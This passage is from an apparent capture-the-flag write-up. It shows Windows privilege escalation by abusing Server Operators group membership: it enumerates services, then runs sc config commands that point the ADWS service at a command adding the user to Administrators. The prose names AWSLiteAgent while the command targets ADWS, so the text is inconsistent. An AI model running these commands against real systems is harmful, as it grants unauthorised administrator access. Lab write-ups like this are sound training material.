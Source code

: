 I check other things like available network shares, what domain groups I belong to, etc and nothing is helpful.

I loaded PowerUp and ran an Invoke-PrivescAudit but no luck there.

Looking at `net user j.rock` it shows we're a member of two groups: Remote Management Users and Server Operators. The Server Operators group is exploitable in that we can change services, which I'm guessing is why this box is named Services.

Running `services` shows the following running:
```
Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent   
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent     
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup          
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc
```

It looks like we have privileges over most of the running services and we should be able to modify them in malicious ways.

You can change the binary path of a service and restart it to get it to do something you want and escalate your privileges.

I run the following to change the binary path of the AWSLiteAgent service:

`cmd /c sc config ADWS binPATH="net localgroup Administrators j.rock /add"`

Then stop and start the service:

`cmd /c sc stop ADWS`
`cmd /c sc start ADWS`

After that I check `net localgroup Administrators` and see we've been added! In order for the privileges to kick in disconnect and reconnect with evil-winrm.
